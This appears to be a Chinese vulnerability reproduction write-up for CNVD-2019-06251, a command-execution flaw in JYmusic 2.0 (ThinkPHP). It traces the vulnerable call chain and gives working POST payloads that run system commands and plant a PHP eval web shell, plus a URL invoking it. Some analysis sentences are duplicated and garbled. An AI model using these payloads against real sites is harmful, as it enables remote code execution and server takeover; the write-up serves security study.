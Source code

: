 # JYmusic 2.0 命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3004](https://www.zhihuifly.com/t/topic/3004)

# （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞

## 一、漏洞简介

CNVD-2019-06251

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call_user_func函数。

![image](img/46c53a3b059095920ff2376e81d3ebc2.png)

通过构造使得$filter=system， $value=dir ，通过call_user_func函数即可执行系统命令” dir ”。

#### array_walk_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array_walk_recursive函数调用了filterValue函数。array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。

![image](img/80fa870c7fdf09e4aa85a0f9da30b499.png)

![image](img/df93b26a0960862df77e94c03364aaba.png)

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

![image](img/28864e17cdc6b3a829b018db7de3d68b.png)

![image](img/83c8eaca0710353986e3ea5490653dd3.png)

#### exec 函数

/core/library/think/App.php类中的exec 函数通过Request::instance()->param()调用了param函数。

![image](img/d43b2882bb30410c85218f13c3b0bd8b.png)

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

![image](img/b9f95103bcff7e2c491c71a3026a5656.png)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![image](img/99f5613506926481795c4dac5db3a546.png)

![image](img/8bc8c6c32bb34ae52dbec6dc9aa74277.png)

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request->method()调用了method函数。

/core/library/think/Request.php类中，通过post参数_method=__construct调用构造函数：

![image](img/6bca5c0a51ae6889c145693436b13dbd.png)

在构造函数里用filter=system覆盖类中的filter变量。

![image](img/4697639bf526eea018b48bfb3c2d8981.png)

post参数 method=GET 就是要再次调用method函数，并且使得if(true===$method)为真，从而获取 _SERVER[REQUEST_METHOD]=dir 这个参数值。

![image](img/42586c86f0a22ed79646e5a38cd0fd0b.png)

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

![image](img/dfefedd91f6efaa215f6253b26afaa66.png)

POST的参数的作用已在漏洞分析环节分析。
filter=system&_SERVER[REQUEST_METHOD]=dir&_method=__construct&method=GET
POST参数后不能有\r\n回车换行，如果有就不能成功执行。
POST /captcha HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

![image](img/e4ffb8f3269ebdfe3af2d4db0aa3cb02.png)

```
filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET 
```

#### phpinfo()

![image](img/52a813bba4546043e350f9c1ba6e879c.png)

```
http://0-sec.org/test.php?test=phpinfo(); `//末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。` 
```

## 四、参考链接

> https://blog.csdn.net/yun2diao/article/details/91345116